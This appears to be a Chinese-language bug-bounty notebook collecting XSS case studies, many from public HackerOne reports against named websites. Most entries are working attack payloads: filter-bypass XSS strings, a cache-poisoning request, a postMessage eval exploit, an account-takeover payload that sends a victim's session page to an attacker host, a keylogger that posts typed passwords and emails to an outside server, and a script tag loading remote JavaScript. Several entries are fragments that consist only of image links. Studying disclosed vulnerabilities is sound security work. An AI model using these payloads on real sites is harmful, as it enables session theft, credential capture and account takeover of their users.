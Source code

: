# 1.隐藏输入中的xss（绕过输入转义）
参数，位于post请求中的listViewHeading=
有效负载：" accesskey=X onclick=alert()
![[Pasted image 20241014211401.png]]
" accesskey=X onclick=alert() xxx
![[Pasted image 20241014211445.png]]
success

# 2.个人主页的项目名称中可以插入xsspayload
```
post
name="><svg onload="prompt(/xss/);"><!--
```

# 3.二维码xss
二维码执行js

# 4.cookie里的xss
cookie: hav=xxx 反射到页面上
payload:cookie:  hav=xss"</sc"ript><sv"g/onloa"d=al"ert"(document.do"main)>
缓存投毒，http响应里的头Cache-Control和Expires表明可以缓存
还发现cookie明文存储在页面js的这个变量window.INITIAL_STATE.system.cookie
直接alert(window.INITIAL_STATE.system.cookie)
厂商通过去除hav反射在页面修复该问题
邦邦的https://hackerone.com/reports/1760213

```
GET /annonces/location-vacances/france_midi-pyrenees_46_stcere_dt0.php.js?xxxd HTTP/2
Host: www.abritel.fr
Cookie: hav=xss"</sc"ript><sv"g/onloa"d=aler"t"(document.doma"in)>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.abritel.fr/signup?enable_registration=true&redirectTo=%2Fsearch%2Fkeywords%3Asoissons-france-%28xss%29%2FminNightlyPrice%2F0%3FpetIncluded%3Dfalse%26filterByTotalPrice%3Dtrue%26ssr%3Dtrue&referrer_page_location=serp
Upgrade-Insecure-Requests: 1
Te: trailers
```
.js触发缓存。?xxxd缓存破坏器

# 5.postmessage相关的xss
网页存在代码![[Pasted image 20241017232723.png|700]]
e.data有exec的话就用eval执行代码，这里检查origin，但是不严格
```
可以构造https://hq.upserve.com.mydomain.com/xss.html
页面里window.opener.postMessage({exec:'alert("xss")'},"https://inventory.upserve.com/login/);
向目标网站发送一个包含代码执行的消息
```
推荐插件:postmessage tracker
自动化工具：semgrep
或者自己在开发者工具搜
![[Pasted image 20241017233752.png]]

# 6.没有绕过csp的2000刀xss
https://hackerone.com/reports/1804177
这里hunter的提交最初被关闭为selfxss。但是通过与审核沟通，这是一个能攻击管理员的存储xss
在应用程序发现能够创建链接，并且被群组的人看到，于是
使用此`javascript://%0aalert(1)`作为链接创建Custom Link（存在xss的功能）
浏览器报错说csp阻止了，说明此处可能存在xss，于是报告漏洞

思考：学会和审核沟通

# 7.登陆错误的xss
正常情况target.com/login?error=xxx
攻击情况
```
target.com/login?error=<img src=1 onerror=alert()>
```

# 8.个人信息中心处xss
某个字段可以编辑进行存储xss
https://hackerone.com/reports/1921606

# 9.分析上下文构造payload的搜索xss
search?brook
![[Pasted image 20241020112514.png]]
payload：
```
"，inertnalSearchTerm:[7].map(alert),num0fSearchResultsReturned:"b
//输入时候要url编码符号，这里iner这个没有特殊含义
```
这里[].map()算是一个简单绕过思路吧
弹窗
![[Pasted image 20241020112736.png]]

# 10.xss账户接管
这里无法通过cookie窃取会话，但是发现https://www.sidefx.com/account/sessions/页面包含会话信息
测试危害：向其他账号发送https://example.com/&quot&gtsadf&lt/a&gt&ltimg&#32src=&quotxx&quotonerror=&quotalert&#40&#39XSS&#39&#41&quot&gt，受害者打开后发现会弹窗

接管账户的有效负载：
```
https://example.com/&quot&gtsadf&lt/a&gt&ltimg&#32src=&quotxxx&quotonerror=&quotfetch&#40&#39https&#58&#47&#47www.sidefx.com/account/sessions&#39&#41.then&#40response=&gt&#123response.text&#40&#41.then&#40ddd=&gt&#123let&#32el=document.createElement&#40&#39img&#39&#41&#59el.src=&#39http&#58&#47&#47myfakesite.com?q=&#39&#43btoa&#40encodeURIComponent&#40ddd&#41&#41&#59document.body.appendChild&#40el&#41&#125&#41&#125&#41&quot&gt
```
实际上就是
![[Pasted image 20241020133317.png]]
将页面内容（含有session）发给攻击者hhh
由于网站存在论坛，可以在论坛发送payload进行危害发散

思考：账号接管怎么做，如何造成危害（这里通过论坛去扩散危害），cookie被限制时候找找页面有没有存在会话信息的地方

# 11.服务器错误处理cookie导致xss
https://wx.zsxq.com/columns/48884815425228

标题是：通过观察响应值以及**cookie走私**来实现的xss
本来cookie中的字段以分号相隔为不同的cookie字段，但是这里服务器把空格也当成了分隔符，当攻击者用空格进行构造cookie的时候，服务器没有进行安全处理直接将cookie字段反射到页面造成xss
后续还有账号接管操作还没分析
键盘记录器payload
```

setTimeout(function () {
    {
    var a = document.getElementsByName('password')[0];
    var b = document.getElementsByName('email')[0];
    
    function f() {
        fetch(`https://calc.sh/?a=${encodeURIComponent(a.value)}&b=${encodeURIComponent(b.value)}`);
    }
    a.form.onclick = f;
    a.onchange = f;
    b.onchange = f;
    a.oninput = f;
    b.oninput = f;
}, 1000);
```
思考：新的漏洞点，关注cookie等可能的header头也会有xss反射点



# 12.路径重定向的xss
https://hackerone.com/reports/260744



```
https://dev.twitter.com/https:/%5cblackfan.ru/
后面https那个路径会进行重定向到https:/%5cblackfan.ru/
```

https://dev.twitter.com//x:1/:///%01javascript:alert(document.cookie)/
以下是http响应
```
HTTP/1.1 302 Found
connection: close
...
location: //x:1/://dev.twitter.com/javascript:alert(document.cookie)
...


<p>You should be redirected automatically to target URL: <a href="javascript:alert(document.cookie)">javascript:alert(document.cookie)</a>.  If not click the link.
```
思考：提示重定向的页面也可以造成xss

# 13.jquery，存储型盲xss
访问 https://your-store.myshopify.com/admin/settings/account。
添加一个新的员工账号。
在填写名字和姓氏字段时，输入以下payload（恶意代码）：
```
<script>$.getScript("https://yourvps.com/xss.js")</script>
```

# 14，通过文件上传进行xss
![[Pasted image 20241023223521.png]]

# 15.通过”创建“来造成xss
这里有三个案例
通过创建邮箱模板触发xss
上传一个文件的文件名字触发xss

思考：创建服务，邮箱，反正这类能创建东西的，他的名字，内容，都有可能存在xss
最后附上一段话
![[Pasted image 20241024162404.png]]

# 16.一分钟缓存的请求头xss
![[Pasted image 20241026114429.png]]思考
![[Pasted image 20241026114512.png]]
